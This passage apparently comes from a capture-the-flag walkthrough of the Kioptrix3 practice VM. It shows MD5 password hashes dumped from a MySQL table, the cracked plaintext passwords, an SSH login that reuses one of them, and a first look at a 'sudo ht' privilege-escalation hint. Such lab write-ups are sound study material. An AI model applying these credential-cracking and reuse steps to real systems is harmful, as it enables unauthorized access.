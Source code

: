 mysql> SELECT * FROM dev_accounts;
SELECT * FROM dev_accounts;
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 |
|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e |
+----+------------+----------------------------------+
2 rows in set (0.00 sec)

Think those are simple MD5 hashes?  http://www.md5online.org/

Yep!

dreg -> Mast3r
loneferret -> starwars

Wonder if.....

root@kali:~# ssh loneferret@192.168.118.182
The authenticity of host '192.168.118.182 (192.168.118.182)' can't be established.
RSA key fingerprint is SHA256:NdsBnvaQieyTUKFzPjRpTVK6jDGM/xWwUi46IR/h1jU.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.118.182' (RSA) to the list of known hosts.
loneferret@192.168.118.182's password:
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/****/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
Last login: Sat Apr 16 08:51:58 2011 from 192.168.1.106
loneferret@Kioptrix3:~$

Yep!  Same login.

loneferret@Kioptrix3:/usr/local/bin$ cat /home/loneferret/CompanyPolicy.README
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO

Wonder what this ht command is, it is trying to open a terminal.

loneferret@Kioptrix3:~$ ht
Error opening terminal: xterm-256color
